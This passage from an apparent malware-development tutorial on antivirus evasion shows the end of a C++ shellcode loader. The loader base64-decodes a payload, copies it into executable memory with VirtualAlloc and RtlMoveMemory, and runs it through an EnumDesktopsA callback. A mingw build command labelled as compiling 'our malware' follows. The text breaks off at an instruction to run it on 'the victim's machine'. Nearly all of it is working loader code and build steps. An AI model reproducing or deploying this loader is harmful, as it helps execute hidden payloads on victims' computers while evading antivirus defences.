```cpp

  unsigned int payload_bytes_len = 512;
  char * decoded_payload_bytes = (char *)malloc(sizeof(char) * payload_bytes_len);
  b64decode((const BYTE *)decoded, payload_bytes_len, 
  decoded_payload_bytes, payload_bytes_len);

  unsigned int decoded_payload_len = 285;
  unsigned char* decoded_payload = new unsigned char[decoded_payload_len];

  for (int j = 0; j < decoded_payload_len; j++) {
    decoded_payload[j] = decoded_payload_bytes[j];
  }

  printf("-------payload-----------\n");
  for (int i = 0; i < decoded_payload_len; i++) {
    printf("%02hhx\t", decoded_payload[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, decoded_payload_len + 1, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, decoded_payload, decoded_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

### demo

Let's go to see everything in action. Compile our malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lcrypt32
```

![av-evasion](./images/65/2022-08-16_06-16.png){width="80%"}      

Then run it at the victim's machine:    
